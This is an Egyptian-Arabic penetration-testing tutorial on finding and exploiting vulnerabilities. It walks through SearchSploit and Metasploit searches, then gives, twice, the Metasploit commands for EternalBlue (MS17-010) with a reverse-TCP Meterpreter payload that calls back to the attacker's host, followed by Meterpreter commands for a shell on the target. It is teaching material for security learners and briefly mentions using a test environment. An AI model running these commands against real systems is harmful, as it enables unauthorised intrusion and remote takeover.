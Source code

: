 
# **📌 يعني إيه استغلال الثغرات؟**

بعد ما تخلص **مرحلة جمع المعلومات (Reconnaissance)** وتعرف الخدمات والبرامج اللي شغالة على الهدف، تيجي أهم خطوة: **تدور على ثغرات فيها وتستغلها عشان تخترق النظام!**

✳️ ببساطة، الثغرات (Vulnerabilities) هي **أخطاء في البرامج أو الخدمات** ممكن يستغلها المخترق عشان يتحكم في النظام أو ينفذ أوامر عليه.

---

# **🎯 إزاي تدور على الثغرات؟**

عشان تعرف إذا كان الهدف فيه ثغرات، بتستخدم أدوات ومصادر مختلفة، زي:

1️⃣ **Exploit-DB** → قاعدة بيانات ضخمة بتجمع الثغرات المعروفة والاستغلالات الجاهزة ليها.  
2️⃣ **SearchSploit** → أداة تشتغل أوفلاين للبحث عن ثغرات من قاعدة بيانات Exploit-DB.  
3️⃣ **Nmap NSE Scripts** → سكربتات بتساعدك تفحص الثغرات خلال البحث عن الخدمات.  
4️⃣ **Metasploit Framework** → أداة قوية جدًا للاستغلال والبحث عن الثغرات أوتوماتيكيًا.  
5️⃣ **CVE Details** → موقع بيعرض تفاصيل الثغرات الأمنية حسب CVE ID الخاص بيها.

---

# **🔎 خطوات البحث عن ثغرة واستغلالها عمليًا**

### **🚀 1. البحث عن الثغرات باستخدام SearchSploit**

📌 لو عرفت إن الهدف بيشغل خدمة معينة، زي **Apache 2.4.49**، ممكن تبحث عن ثغراتها كده:

```bash
searchsploit apache 2.4.49
```

🔹 **هيعرض لك كل الثغرات المرتبطة بالخدمة دي مع تفاصيلها ومساراتها.**

✳️ **لو لقيت ثغرة مناسبة، هتاخد الـ Exploit وتبدأ تجرب تستغلها.**

---

## **🚀 2. البحث عن الثغرات باستخدام Metasploit**

📌 بعد تشغيل Metasploit (`msfconsole`)، ممكن تدور على ثغرات لبرنامج معين:

```bash
search smb
```

🔹 **هيظهر لك كل الثغرات المرتبطة بـ SMB، ولو لقيت ثغرة مناسبة، هتستخدمها.**

---

## **🚀 3. استغلال الثغرة باستخدام Metasploit**

📌 لو لقيت إن الهدف بيستخدم **SMBv1**، تقدر تجرب ثغرة **EternalBlue (MS17-010)** بالشكل ده:

```bash
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS 192.168.1.1
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 192.168.1.2
set LPORT 4444
exploit
```

🔹 `set RHOSTS` → بيحدد عنوان IP للهدف  
🔹 `set LHOST` → بيحدد جهازك عشان يستقبل الاتصال العكسي  
🔹 `set PAYLOAD` → بيحدد نوع الحمولة اللي هتنفذ بعد الاستغلال

✳️ **لو الثغرة اشتغلت، هتاخد تحكم كامل في النظام باستخدام Meterpreter!**

---

# **🚀 4. التأكد من نجاح الاستغلال**

📌 بعد تنفيذ الاستغلال، ممكن تستخدم أوامر Meterpreter زي:

```bash
sysinfo  # يعرض معلومات عن النظام
getuid   # يعرض المستخدم الحالي
shell    # يفتح لك Terminal على الجهاز المستهدف
```

🔹 **كده أنت دخلت على النظام بنجاح، وتقدر تكمل مرحلة ما بعد الاختراق!**

---

## **💡 الخلاصة بالمصري:**

1️⃣ **دور على الثغرات في الخدمات والبرامج اللي شغالة على الهدف باستخدام أدوات زي SearchSploit و Exploit-DB.**  
2️⃣ **استخدم Metasploit عشان تدور على ثغرات جاهزة فيها Exploits وتنفذها أوتوماتيكيًا.**  
3️⃣ **بعد تنفيذ الاستغلال، استخدم Meterpreter للتحكم الكامل في الجهاز المستهدف.**  
4️⃣ **اتأكد إنك بتحاول على بيئة اختبار، عشان دي حاجات خطيرة مش هزار!**

---

# **🛠️ الخطوات العملية لاستغلال الثغرات**

#### ✅ **1. البحث عن ثغرات أي برنامج:**

```bash
searchsploit apache 2.4.49
```

#### ✅ **2. البحث عن ثغرات في Metasploit:**

```bash
search smb
```

#### ✅ **3. استغلال ثغرة SMB باستخدام Metasploit:**

```bash
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS 192.168.1.1
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 192.168.1.2
set LPORT 4444
exploit
```

#### ✅ **4. التأكد من الاختراق باستخدام Meterpreter:**

```bash
sysinfo
getuid
shell
```

🎯 **بعد تنفيذ الخطوات دي، هتكون قدرت تخترق الهدف بنجاح وتبدأ مرحلة ما بعد الاستغلال (Post-Exploitation)!** 🔥
